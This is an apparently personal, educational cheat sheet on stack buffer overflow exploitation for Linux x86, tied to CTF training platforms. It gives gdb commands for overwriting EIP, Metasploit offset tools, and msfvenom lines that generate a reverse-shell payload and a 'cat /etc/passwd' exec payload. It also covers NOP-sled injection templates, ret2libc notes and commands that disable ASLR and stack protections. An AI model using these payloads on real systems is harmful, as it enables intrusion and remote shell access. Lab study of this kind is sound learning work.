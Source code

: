 # Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)

<div class="row row-cols-lg-2"><div>

Buffers overflows occur when a user is able to inject more data that the system can handle, resulting in an overflow.

By overriding data, the user may be able to control and modify the program behavior, such as executing malicious code.

A buffer overflow can be categorized in

* **Stack-based** Buffer Overflow 🗃️
* **Heap-based** Buffer Overflow 🌱

This attack is very specific to the targeted executable.

```shell!
$ file some_executable
$ checksec --file=some_executable
```
</div><div>

Buffers overflows are less common nowadays, mostly due to the implementation of several security mechanisms.

* 🪤 **Data Execution Prevention** (DEP)/**NX bit**: mark as "read-only" memory regions where user input is stored such as the stack
* 🛣️ **Address Space Layout Randomization** (ASLR): randomize where everything is stored to make ROP attacks harder
* 🦆 **Canaries**/**Stack Guard**: add a known value to the stack between user input and control data to detect buffer overflows

📚 IoT and Embedded devices are a common target as they often use low-level vulnerable languages such as `C` or `C++`.
</div></div>

<hr class="sep-both">

## Stack-based Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)
[![elf_x86_stack_buffer_overflow_basic_1](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_1.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1)
[![elf_x86_stack_buffer_overflow_basic_2](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_2.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2)
[![getting_started](../../../../_badges/htb-c/getting_started.svg)](https://app.hackthebox.com/challenges/getting-started)
[![questionnaire](../../../../_badges/htb-c/questionnaire.svg)](https://app.hackthebox.com/challenges/Questionnaire)

<div class="row row-cols-lg-2"><div>

#### Find An Attack Vector

Identify vulnerable functions such as the following C functions:

* `strcpy`, `strcat`
* `sprintf`, `vsprintf`
* `gets`/`fgets`
* `scanf`/`fscanf`/`sscanf`/`vscanf`/`vsscanf`/`vfscanf`
* `realpath`/`index`/`getopt`/`getpass`/`strecpy`/`streadd`/`strtrns`
* ...

Each function or function call may not be exploitable.

#### Take Over The Instruction Pointer

When a program calls a function, it stores the instruction pointer (`EIP`/`RIP`) to the stack. We can exploit a buffer overflow to take it over.

All commands below inject a lot of `A` to stdin <small>(assuming stdin in the vulnerable vector)</small>. The ideal result is the program crashing with the message `0x41414141 in ?? ()` which means we took over the EIP.

We can use [GDB](/programming-languages/low-level/compilers/gnu/gdb.md) on Linux:

```text!
(gdb) run <<< $(python2 -c "print '\x41' * 1000")
(gdb) run <<< $(python2 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(python3 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(perl -e 'print "\x41"x1000')
(gdb) run <<< $(perl -e 'print "\x41"x1000 . "A"')
(gdb) run <<< $(printf '\x41%.0s' {1..1000})
0x41414141 in ?? ()
```

⚠️ Python3 doesn't behave as we expect for many characters.

#### Determine The Offset

We want to determine when did we override the EIP. Generate a pattern with metasploit. Run the program with the given bytes, note the EIP, and pass the EIP to metasploit to find the exact offset.

```shell!
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
<some pattern>
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xYOUR_NEW_EIP
offset
```
Going back to gdb, we should be able to arbitrary set the EIP:

```text!
(gdb) run <<< $(python2 -c "print( '\x41' * (offset) + '\x66\x66\x66\x66' )")
EIP uses 0x66666666 in ?? ()
```

📚 Alternatively, look for the `EBP`/`RBP` register's value.
</div><div>

Quick reminder, for x64, the EIP is 8-bits long.

<br>

#### Injecting A ShellCode

We can now generate a shellcode, inject it, and make the EIP point to our code. Just in case, we usually add NOPs (`\x90`) before our payload. We also want to identify "bad characters":

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - 256) + '$(for i in {0..255}; do printf "\\\x%02x" $i;done)' + '\x66\x66\x66\x66')")
(gdb) x/2000xb $esp+0
```

Look at the end of your `\x41` for missing values in your charset.

We can use msfvenom to generate a payload:

* Reverse Shell <small>(you can use `127.0.0.1` and a local listener)</small>

```shell!
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

* Execute a command such as `cat /etc/passwd`

```shell!
$ msfvenom -p linux/x86/exec cmd="cat /etc/passwd" --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

To test your payload:

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
(gdb) x/2000xb $esp+0
```

The EIP can be a line of NOPs, or a line of NOPs with your code. ⚠️ Remember that there is a notion of endianness in addresses.

**Important Note** ⚠️: GDB is good for testing your payloads, but it executes the binary in your context, meaning you cannot elevate to another user. You need to execute the binary outside of GDB:

```shell!
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )")
$ (python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )" ; cat -) | ./my_program
```

The last command with `cat`/`cat -` keep stdin open if you need that.

#### Additional Notes

* 👻 Try `PAD+EIP+NOPs+SHELLCODE` when the space is limited? THE EIP should point to EIP address + EIP length.

* 👻 Use **ret2libc**: invoke `libc` functions (`system,exit`) using their address when you can't execute code in the stack. The payload concatenate 3 addresses `0x[system]0x[exit]0x[command]`. Use an environment variable for the command. [Guide+Explanations](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).
</div></div>

<hr class="sep-both">

## Random Notes

<div class="row row-cols-lg-2"><div>

#### Reuse addresses in shellcode

Find `libc` function addresses.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ p system
$ p exit
```

Find the current address of the `SHELL` environment variable.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ # 'SHELL' might not be at the same index ('0') for you
$ # The address may change over time
$ x/s *((char **)environ+0)
0xffffe23a: "SHELL=/bin/bash"
```
</div><div>

#### Find The Address Of A Function

To find the address of function `xxx`:`

```ps
(gdb) p xxx 
$ nm ./my_binary | grep "xxx"
$ readelf -s ./my_binary | grep "xxx"
$ objdump -d ./my_binary | grep "xxx"
```

#### Use Python To Assemble Payloads

You can use the following code to convert an address (`0xAABBCCDD`) to a payload address (`\xDD\xCC\xBB\xAA`):

```py
import struct
x = struct.pack("I" , 0xAABBCCDD)
y = struct.pack("I" , 0xEEFF0011)
print(x + y) # '\xdd\xcc\xbb\xaa\x11\x00\xff\xee'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `CVE-2021-3156` in sudo
* Attack: make the program crash (benign)
* Return Oriented Programming (ROP)
* Read Only relocations (RelRO) - read-only headers
* Position Independent Executable (PIE) - randomizes the base address of the binary
* binary can be stripped or not (reduce size)
* `Heap => go from the 0x0 to 0xf. Start at the end of .bss in x86.`, `Stack => go from 0xf to 0x0`.
* [heap](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)
* [dhavalkapil](https://heap-exploitation.dhavalkapil.com/), [memory-allocation](https://samwho.dev/memory-allocation/)
* [r2heap radare](https://hackliza.gal/en/posts/r2heap/)

Heap: malloc/free, persistent, manually managed. [Heap Exploitation](https://github.com/shellphish/how2heap)

* Use After Free (UAF)

If the program uses an object that was deleted, it's possible that a hacker may manipulate the memory to take control of that object.

* pwndbg (heap), gdb-gef (stack)
</div><div>

* [vulnserver](https://github.com/stephenbradshaw/vulnserver), [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
* [ropemporium](https://ropemporium.com/), [ROP article](https://reboare.github.io/bof/linux-stack-bof-3.html)

```
# disable ASLR
sudo echo 0 > /proc/sys/kernel/randomize_va_space
# compile 32-bit ELF binary (no DEP)
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m32
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m64
gcc xxx.c -o xxx -fno-stack-protector -no-pie -Wl,-z,relro,-z,now,-z,noexecstack
```
</div></div>